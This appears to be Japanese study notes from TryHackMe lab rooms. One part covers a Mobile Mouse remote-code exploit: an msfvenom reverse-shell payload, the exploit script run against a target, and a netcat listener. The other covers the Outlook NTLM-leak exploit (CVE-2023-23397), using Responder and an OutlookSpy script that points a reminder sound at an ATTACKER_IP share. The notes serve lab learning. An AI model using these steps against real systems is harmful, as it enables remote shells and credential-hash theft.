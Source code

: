 https://github.com/blue0x1/mobilemouse-exploit

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.201.110.232 LPORT=4445 -f exe > shell.exe
```

```sh
git clone https://github.com/blue0x1/mobilemouse-exploit
cd mobilemouse-exploit

python ./CVE-2023-31902-v2.py --target 10.201.71.200 --file shell.exe --lhost 10.201.110.232
```

```sh
sudo nc -lnvp 446
```


## CVE-2023-23397 (Outlook NTLM Leak)

https://tryhackme.com/room/outlookntlmleak

- Outlook デスクトップアプリ
- 感染したメールがユーザーの受信トレイに届くだけで、攻撃者は Net-NTLMv2 認証情報ハッシュを取得できる。

Outlook ではカレンダーの招待を送信するとき、リマインダー用の音声ファイルを指定できる。攻撃者はこのパラメータを利用する。

攻撃者のマシンのネットワーク共有フォルダに入っている音声ファイルを、UNC 形式で指定する。（例：`\\ATTACKER_IP\foo\bar.wav`）

Windows Server 以外では、ポート 445 以外を指定することができる。（FW 回避のため）

```
\\ATTACKER_IP@80\foo\bar.wav
\\ATTACKER_IP@443\foo\bar.wav
```

### エクスプロイト

前提：OutlookSpy プラグインをインストール（通常の音声ファイル選択機能では、UNC を設定できないため）

1. Responder で SMB 接続を待ち受ける。

```sh
sudo responder -I tun0
```

2. Outlook で、カレンダー、新しい予定。
3. OutlookSpy タブ、カレントアイテム。
4. script タブで入力

```
AppointmentItem.ReminderOverrideDefault = true
AppointmentItem.ReminderPlaySound = true
AppointmentItem.ReminderSoundFile = "\\ATTACKER_IP\noexist\sound.wav"
```

5. Run を実行
6. プロパティタブで設定反映を確認
7. リマインダーの時間を 0 分などに設定して予定を保存
